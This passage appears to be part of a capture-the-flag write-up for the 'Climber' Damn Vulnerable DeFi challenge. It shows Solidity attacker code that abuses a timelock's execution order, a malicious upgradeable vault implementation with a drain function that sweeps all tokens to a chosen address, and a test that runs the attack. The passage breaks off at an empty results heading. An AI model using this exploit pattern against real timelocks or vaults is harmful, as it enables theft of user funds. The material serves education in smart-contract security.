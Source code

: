 ```solidity
        dataElements[3] = abi.encodeWithSignature("scheduleAndDrain()");

        // Execute the operation
        timelock.execute(targets, values, dataElements, bytes32(0));
    }

    function scheduleAndDrain() external {
        require(msg.sender == address(timelock), "Only timelock can call this");

        // Schedule the operation
        timelock.schedule(targets, values, dataElements, bytes32(0));

        // Drain the vault directly to the recovery address
        MaliciousVaultImplementation(vault).drain(token, recovery);
    }
}
```

The `MaliciousVaultImplementation` contract is a malicious version of the vault that includes a `drain` function:

```solidity
contract MaliciousVaultImplementation is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    // ... (other functions)

    function drain(address token, address recipient) external {
        SafeTransferLib.safeTransfer(token, recipient, IERC20(token).balanceOf(address(this)));
    }

    // ... (other functions)
}
```

The attack is executed in the test file:

```solidity
function test_climber() public checkSolvedByPlayer {
    // Deploy the attacker contract
    ClimberAttacker attacker = new ClimberAttacker(timelock, address(vault), address(token), recovery);

    // Execute the attack
    attacker.attack();

    // Check that the timelock delay has been set to 0
    assertEq(timelock.delay(), 0);

    // Check that the attacker contract has the PROPOSER_ROLE
    assertTrue(timelock.hasRole(PROPOSER_ROLE, address(attacker)));
}
```

### Running Result
